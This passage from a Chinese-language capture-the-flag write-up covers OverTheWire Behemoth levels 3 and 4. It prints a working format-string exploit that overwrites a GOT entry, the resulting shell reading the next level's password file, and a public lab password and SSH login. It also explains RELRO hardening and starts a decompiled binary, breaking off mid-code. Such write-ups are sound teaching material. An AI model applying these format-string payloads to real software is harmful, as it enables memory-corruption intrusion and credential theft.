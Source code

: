 这里shellcode的地址为:

* `\xac\x97\x04\x08`,或者`0x080497ac`指向要写入数据的低2字节地址。
* `\xae\x97\x04\x08`,或者`0x080497ae`指向要写入的高2字节地址。
* val1写`0xde25-0x8`=0xDE1D=56861
* val2写`0xffff-0xde25`=0x21DA=8666

所以最后：

```bash
behemoth3@behemoth:/behemoth$ (python -c 'print "\xac\x97\x04\x08\xae\x97\x04\x08%56861x%1$hn%8666x%2$hn"';cat) | ./behemoth3
# 经过一段输出之后....
whoami
behemoth4
cat /etc/behemoth_pass/behemoth4
ietheishei
```

---

**RELRO机制:**

用RELRO机制防止GOT表被写可以参考[Hardening ELF binaries using Relocation Read-Only (RELRO)](https://www.redhat.com/en/blog/hardening-elf-binaries-using-relocation-read-only-relro)。

这里简单的说下不同，Partial RELRO把GOT节移到数据节(.data 和 .bss)上面去了,可以防止数据节的数据溢出到GOT中,但运行时GOT仍然可以写,不能防止格式化字符串漏洞。

FULL RELRO 除了干Partial RELRO要干的事情的以外，会在程序一开始就把GOT表填好,不采用延迟绑定机制。填好表后将GOT节设置为只读,可以防止格式化字符串漏洞。因为效率问题，Partial RELRO为编译默认选择。

---

## Behemoth 04

**SSH :** ssh behemoth4@narnia.labs.overthewire.org -p 2221

**Pass :** ietheishei

还是先dump下来,扔到IDA中反汇编分析。

```bash
$ ./crawl.sh 4 ietheishei
sshpass -p ietheishei scp -P 2221 behemoth4@behemoth.labs.overthewire.org:/behemoth/behemoth4  .
This is a OverTheWire game server. More information on http://www.overthewire.org/wargames

[*] '/home/z1933/workplace/vbshare/ctf/behemoth4'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```

反编译结果,改了一些变量名:

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buffer[20]; // [esp+0h] [ebp-28h] BYREF
  int c; // [esp+14h] [ebp-14h]
  FILE *stream; // [esp+18h] [ebp-10h]
  __pid_t pid; // [esp+1Ch] [ebp-Ch]

  pid = getpid();
  sprintf(buffer, "/tmp/%d", pid);
  stream = fopen(buffer, "r");
  if ( stream )
  {
```